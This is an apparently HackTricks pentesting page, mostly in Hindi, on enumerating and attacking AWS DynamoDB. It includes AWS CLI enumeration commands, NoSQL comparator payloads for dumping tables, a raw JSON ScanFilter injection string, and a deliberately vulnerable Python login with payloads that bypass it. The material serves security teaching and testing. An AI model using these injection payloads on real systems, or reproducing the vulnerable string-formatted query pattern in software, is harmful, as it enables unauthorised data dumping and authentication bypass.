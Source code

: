 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### Basic Information

Amazon DynamoDB को AWS द्वारा एक **पूर्ण रूप से प्रबंधित, सर्वरलेस, की-वैल्यू NoSQL डेटाबेस** के रूप में प्रस्तुत किया गया है, जो उच्च प्रदर्शन वाले अनुप्रयोगों को उनके आकार की परवाह किए बिना शक्ति प्रदान करने के लिए तैयार किया गया है। यह सेवा मजबूत सुविधाओं की गारंटी देती है, जिसमें अंतर्निहित सुरक्षा उपाय, निरंतर बैकअप, कई क्षेत्रों में स्वचालित प्रतिकृति, एकीकृत इन-मेमोरी कैशिंग, और सुविधाजनक डेटा निर्यात उपयोगिताएँ शामिल हैं।

DynamoDB के संदर्भ में, पारंपरिक डेटाबेस स्थापित करने के बजाय, **तालिकाएँ बनाई जाती हैं**। प्रत्येक तालिका को **तालिका की प्राथमिक कुंजी** के एक अभिन्न घटक के रूप में **पार्टीशन कुंजी** के विनिर्देशन की आवश्यकता होती है। यह पार्टीशन कुंजी, जो मूल रूप से एक **हैश मान** है, वस्तुओं की पुनर्प्राप्ति और विभिन्न होस्टों के बीच डेटा के वितरण में महत्वपूर्ण भूमिका निभाती है। यह वितरण डेटाबेस की स्केलेबिलिटी और उपलब्धता बनाए रखने के लिए महत्वपूर्ण है। इसके अतिरिक्त, डेटा संगठन को और अधिक परिष्कृत करने के लिए **सॉर्ट कुंजी** को शामिल करने का विकल्प भी है।

### Encryption

डिफ़ॉल्ट रूप से, DynamoDB एक KMS कुंजी का उपयोग करता है जो \*\*Amazon DynamoDB की है,\*\* न कि AWS प्रबंधित कुंजी जो कम से कम आपके खाते की है।

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

**तालिका बैकअप** के निर्माण को **अनुसूचित** करना या **मांग पर** बनाना संभव है। इसके अलावा, **तालिका के लिए पॉइंट-इन-टाइम रिकवरी (PITR)** सक्षम करना भी संभव है। पॉइंट-इन-टाइम रिकवरी आपके DynamoDB डेटा के निरंतर **बैकअप** प्रदान करती है **35 दिनों** के लिए ताकि आप आकस्मिक लिखने या हटाने के संचालन से सुरक्षा कर सकें।

**तालिका के डेटा को S3 में निर्यात** करना भी संभव है, लेकिन तालिका को **PITR सक्षम** होना चाहिए।

### GUI

स्थानीय Dynamo सेवाओं के लिए एक GUI है जैसे [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), आदि, जो उपयोगी हो सकते हैं: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### अनधिकृत पहुँच

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### प्रिवेस्क

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### पोस्ट एक्सप्लोइटेशन

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### स्थिरता

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## DynamoDB इंजेक्शन

### SQL इंजेक्शन

DynamoDB डेटा तक पहुँचने के लिए **SQL सिंटैक्स** के साथ तरीके हैं, इसलिए, सामान्य **SQL इंजेक्शन भी संभव हैं**।

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/sql-injection
{{#endref}}

### NoSQL इंजेक्शन

DynamoDB में विभिन्न **शर्तें** डेटा प्राप्त करने के लिए उपयोग की जा सकती हैं, जैसे कि एक सामान्य NoSQL इंजेक्शन में यदि **डेटा प्राप्त करने के लिए अधिक शर्तों को जोड़ना संभव है** तो आप छिपा हुआ डेटा प्राप्त कर सकते हैं (या पूरी तालिका को डंप कर सकते हैं)।\
आप यहाँ DynamoDB द्वारा समर्थित शर्तें पा सकते हैं: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

ध्यान दें कि **विभिन्न शर्तें** समर्थित हैं यदि डेटा **`query`** के माध्यम से या **`scan`** के माध्यम से पहुँचाया जा रहा है।

> [!NOTE]
> वास्तव में, **Query** क्रियाओं को कार्य करने के लिए **प्राथमिक** कुंजी में **शर्त "EQ" (बराबर)** निर्दिष्ट करने की आवश्यकता होती है, जिससे यह **NoSQL इंजेक्शन के लिए कम संवेदनशील** हो जाता है (और ऑपरेशन को बहुत सीमित भी बनाता है)।

यदि आप **तुलना** को बदल सकते हैं या नए जोड़ सकते हैं, तो आप अधिक डेटा प्राप्त कर सकते हैं।
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.xyz/pentesting-web/nosql-injection
{{#endref}}

### कच्चा Json इंजेक्शन

> [!CAUTION]
> **यह भेद्यता dynamodb Scan Filter पर आधारित है जो अब अप्रचलित है!**

**DynamoDB** **Json** ऑब्जेक्ट्स को DB के अंदर डेटा खोजने के लिए स्वीकार करता है। यदि आप पाते हैं कि आप खोज के लिए भेजे गए json ऑब्जेक्ट में लिख सकते हैं, तो आप DB का डंप बना सकते हैं, सभी सामग्री।

उदाहरण के लिए, एक अनुरोध में इंजेक्ट करना जैसे:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
एक हमलावर कुछ इस तरह इंजेक्ट कर सकता है:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

"EQ" स्थिति को ठीक करें जो ID 1000 के लिए खोज कर रही है और फिर सभी डेटा के लिए देख रही है जिनका Id स्ट्रिंग 0 से बड़ा है, जो कि सभी है।

एक **कमजोर उदाहरण लॉगिन का** हो सकता है:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
यह निम्नलिखित के प्रति संवेदनशील होगा:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

कुछ SDKs एक स्ट्रिंग का उपयोग करने की अनुमति देते हैं जो फ़िल्टरिंग को इंगित करती है जो की जानी है जैसे:
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
आपको यह जानना आवश्यक है कि DynamoDB में **फिल्टर एक्सप्रेशंस** में **वस्तुओं** को स्कैन करते समय एक विशेषता **मान** को **बदलने** के लिए खोजते समय, टोकन को **`:`** वर्ण से **शुरू** होना चाहिए। ऐसे टोकन को **रनटाइम** में वास्तविक **विशेषता मान** से **बदला** जाएगा।

इसलिए, पिछले जैसे एक लॉगिन को इस तरह से बायपास किया जा सकता है:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
